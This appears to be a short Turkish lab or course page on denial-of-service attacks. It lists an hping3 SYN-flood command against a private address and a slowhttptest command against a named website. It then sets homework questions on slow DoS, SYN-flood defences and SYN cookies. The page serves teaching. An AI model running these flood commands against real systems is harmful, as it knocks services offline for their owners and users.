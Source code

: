 # DoS Saldırıları

## Komutlar

```
hping3 --syn --flood 10.0.3.8 21
slowhttptest -u http://halitalptekin.com
```

## Ödevler

- Slow dos saldırısının nasıl çalıştığını araştırınız.
- Syn flood saldırısına nasıl önlem alınabileceğini araştırınız.
- Syn cookie nedir ve ne için kullanılır?
